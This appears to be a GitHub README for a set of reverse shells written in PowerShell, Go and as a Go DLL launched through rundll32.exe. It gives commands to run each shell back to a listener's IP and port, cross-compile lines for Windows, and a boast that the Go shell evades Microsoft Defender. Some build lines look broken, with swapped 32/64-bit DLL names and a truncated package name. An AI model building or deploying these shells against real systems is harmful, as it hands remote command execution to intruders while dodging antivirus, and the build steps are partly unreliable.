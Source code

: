 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects propert shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>



# Golang DLL

Golang DLL reverse shell designed to be run with rundll32.exe. This currently has the IP and port hardcoded. Modify the IP and port in the source code.
To Compile:

Linux:
You will need to install the following packages on Ubuntu

<code>sudo apt install golang gcc build-essential gcc-mingw-w64-x86-64 gcc-mingw-w64-i68</code>


Cross compile on Linux for Windows:


32 bit DLL

<code>env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell64.dll revshell_dll.go</code>


64 bit DLL


<code>env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell32.dll revshell_dll.go</code>

To run:

<code>rundll32.exe C:\revshell32.dll,Entry</code>
